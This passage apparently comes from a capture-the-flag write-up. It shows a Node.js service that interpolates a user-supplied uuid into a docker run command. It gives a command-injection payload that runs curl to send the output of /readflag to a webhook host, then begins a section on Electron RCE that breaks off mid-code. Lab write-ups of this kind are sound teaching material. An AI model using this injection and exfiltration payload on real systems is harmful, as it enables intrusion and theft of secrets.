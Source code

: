 ```js
       if (err)
           return res.send(
               `<b>Oops, something wrong: </b><pre>${err}</pre> (please report this error message to the challenge author)`
           )
       const expiredAt = new Date(+new Date() + TIMEOUT * 1000)
       req.session.expiredAt = +expiredAt
       req.session.info = `Bot started!
Instance ID: ${instanceId}
Server: ${APP_SERVER}
UUID: ${uuid}


This instance will be destroyed at ${expiredAt.toISOString()}.
`
       res.redirect('/')
   })
})
```

We were provided access to a web service that allowed spawning Docker containers using a POST /create endpoint. The backend logic invoked a docker run command using several environment variables, one of which was fully controlled by user input: uuid.
The challenge stated that the spawned container image (bot) has curl and could potentially access a secret flag through a command like /readflag.

```js
const uuid = req.body.uuid;
   const instanceId = IMAGE_NAME + '-' + crypto.randomBytes(8).toString('hex')
   const command = `sudo docker run --init --network=host --name ${instanceId} -d --rm -e TIMEOUT=${TIMEOUT} -e SERVER=${APP_SERVER} -e UUID=${uuid} ${IMAGE_NAME}`
```

As you can see here,  there’s no sanitation at all T_T author should be releasing revenge challenge instead of patching it direct into the current challenge.
Since the container has curl installed, we can use it to exfiltrate the flag by injecting a malicious command in the uuid parameter.
We used the following payload:

```bash
uuid=123 not_so_planned_bot /bin/bash -c 'curl https://WEBHOOK?`/readflag`' %23
```

And the command that will be executed is
```bash
sudo docker run --init --network=host --name ${instanceId} -d --rm -e TIMEOUT=${TIMEOUT} -e SERVER=${APP_SERVER} -e UUID=${uuid} uuid=123 not_so_planned_bot /bin/bash -c 'curl https://webhook.site/108f5f00-e0b3-47a0-a530-fac40ce07b28?`/readflag`' # ${IMAGE_NAME}
```

### 2. RCE through electron app

Application flow
Lets consider the first bug was fixed.
So the flow of the application will be. 
Attacker Input UUID of the note -> spawn client bot -> visiting the note base on UUID that attacker specified

electron/main.ts
```ts
   const mainWindow = new BrowserWindow({
       width: 800,
       height: 600,
       webPreferences: {
           nodeIntegration: false,
           contextIsolation: true,
           preload: path.join(app.getAppPath(),
```